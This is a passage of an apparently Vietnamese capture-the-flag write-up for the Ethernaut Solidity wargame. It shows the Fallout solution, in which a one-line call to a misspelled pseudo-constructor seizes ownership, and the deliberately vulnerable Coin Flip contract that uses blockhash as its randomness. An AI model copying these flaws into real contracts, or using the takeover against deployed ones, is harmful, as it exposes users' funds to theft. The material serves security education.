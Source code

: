 ```js
  function collectAllocations() public onlyOwner {
    msg.sender.transfer(this.balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

### Fallout Solution

- Đơn giản chỉ cần chạy function **Fal1out** là được, lưu ý contract cố tình viết sai chữ *l* thành số *1* nên nó không phải là constructor mà chỉ là một function thông thường có nhiệm vụ là **trao quyền owner**

```js
contract.Fal1out()
```

- Kiểm tra xem đã trở thành owner chưa

```js
await contract.owner()
```

- Submit & all done!

![completed]({{site.url}}/assets/images/ethernaut-completed.png)

## 3.Coin Flip

Đây là một bài tung đồng xu, nhiệm vụ của chúng ta là phải đoán trúng mặt sấp hoặc ngửa 10 lần liên tiếp.

```js
pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```